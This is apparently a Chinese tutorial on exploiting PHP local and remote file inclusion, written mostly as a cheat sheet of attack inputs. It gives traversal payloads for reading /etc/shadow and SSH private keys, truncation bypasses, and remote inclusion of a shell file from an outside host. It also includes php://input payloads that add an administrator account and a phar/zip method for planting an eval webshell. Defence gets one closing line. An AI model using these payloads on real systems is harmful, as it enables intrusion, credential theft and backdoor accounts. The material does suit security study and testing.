

常见的文件包含漏洞利用
文件包含漏洞介绍
PHP 文件包含漏洞的产生原因是在通过 PHP 的函数引入文件时，由于传入的文件名没有经过合理的校验，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。
最常见的就属于本地文件包含（Local File Inclusion）漏洞了。
我们来看下面一段 index.php 代码:1
2
3
4
5if ($_GET['func']) {
include $_GET['func'];
} else {
include 'default.php';
}
程序的本意可能是当提交 url 为 http://example.com/index.php?func=add.php时，调用 add.php 里面的样式内容和功能。直接访问 http://example.com/index.php 则会包含默认的 default.php
那么问题来了，如果我们提交http://example.com/index.php?func=upload/pic/evil.jpg ，且 evil.jpg 是由黑客上传到服务器上的一个图片，在图片的末尾添加了恶意的 php 代码，那么恶意的代码就会被引入当前文件执行。
普通本地文件包含
1 | <?php include("inc/" . $_GET['file']); ?> |
1）、包含同目录下的文件：1
?file=.htaccess
2）、目录遍历：1
2
3?file=../../../../../../../../../var/lib/locate.db
?file=../../../../../../../../../var/lib/mlocate/mlocate.db
（linux 中这两个文件储存着所有文件的路径，需要 root 权限）
3）、包含错误日志：1
?file=../../../../../../../../../var/log/apache/error.log （试试把UA设置为""来使 payload 进入日志）
4）、获取 web 目录或者其他配置文件：1
?file=../../../../../../../../../usr/local/apache2/conf/httpd.conf
5）、包含上传的附件：1
?file=../attachment/media/xxx.file
6）、读取 session 文件：1
2?file=../../../../../../tmp/sess_tnrdo9ub2tsdurntv0pdir1no7
（session 文件一般在 /tmp 目录下，格式为 sess_[your phpsessid value]，有时候也有可能在 /var/lib/php5 之类的，在此之前建议先读取配置文件。在某些特定的情况下如果你能够控制 session 的值，也许你能够获得一个 shell）
7）、如果拥有 root 权限还可以试试读这些东西：1
2
3
4
5
6
7
8
9
10
11/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_rsa.keystore
/root/.ssh/id_rsa.pub
/root/.ssh/known_hosts
/etc/shadow
/root/.bash_history
/root/.mysql_history
/proc/self/fd/fd[0-9]* (文件标识符)
/proc/mounts
/proc/config.gz
有限制的本地文件包含
1 | <?php include("inc/" . $_GET['file'] . ".htm"); ?> |
1）、%00 截断：1
2?file=../../../../../../../../../etc/passwd%00
(需要 magic_quotes_gpc=off，PHP 小于 5.3.4 有效)
2）、%00 截断目录遍历：1
2?file=../../../../../../../../../var/www/%00
(需要 magic_quotes_gpc=off，unix文件系统，比如FreeBSD，OpenBSD，NetBSD，Solaris)
3）、路径长度截断：1
2?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.
(php 版本小于 5.2.8(?)可以成功，linux 需要文件名长于 4096，windows 需要长于 256)
4）、点号截断：1
2?file=../../../../../../../../../boot.ini/………[…]…………
(php 版本小于 5.2.8(?)可以成功，只适用 windows，点号需要长于 256)
普通远程文件包含
1 | <?php include($_GET['file']); ?> |
1）、远程代码执行：1
2?file=[http|https|ftp]://example.com/shell.txt
(需要 allow_url_fopen=On 并且 allow_url_include=On)
2）、利用 php 流 input：1
2
3
4
5?file=php://input
<?php system('whoami');?>
<?php system('net user zks zks123 /add');?>
<?php system('net localgroup administrators zks /add');?>
(需要 allow_url_include=On，详细→http://php.net/manual/en/wrappers.php.php)
3）、利用 php 流 filter：1
?file=php://filter/convert.base64-encode/resource=index.php

4）、利用 data URIs：1
2
3?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
<?php phpinfo(); 注意没有>闭合 有就无法执行
(需要allow_url_include=On)
5）、利用 XSS 执行任意代码：1
2?file=http://127.0.0.1/path/xss.php?xss=phpcode
(需要 allow_url_fopen=On，allow_url_include=On 并且防火墙或者白名单不允许访问外网时，先在同站点找一个 XSS 漏洞，包含这个页面，就可以注入恶意代码了。条件非常极端和特殊- -)
6）、phar 协议
phar 是将 php 文件归档到一个文件包里面(我理解是类似与 zip 压缩包一样)创建 phar 的时候要注意 php.ini 的参数,phar.readonly 设置为 off（本地测试的两个默认都是 off）
此方法使用要 php>5.3.0
首先上传一个包含有一句话木马的压缩包，通过伪协议解析其中的木马文件
第一步木马生成压缩包 <?php @eval($_POST[1]);?>
第二步将压缩包上传
第三步解析压缩包中的文件

利用 zip 或 phar 伪协议读取压缩包中的文件1
2/about.php?f=phar://./images/1499394959.jpg/1.php
/about.php?f=zip://./images/1499394959.jpg%231.php
上传webshell完成
有限制的远程文件包含
1 | <?php include($_GET['file'] . ".htm"); ?> |
文件包含漏洞防御：
设置 open_basedir 将用户可操作的文件限制在某目录下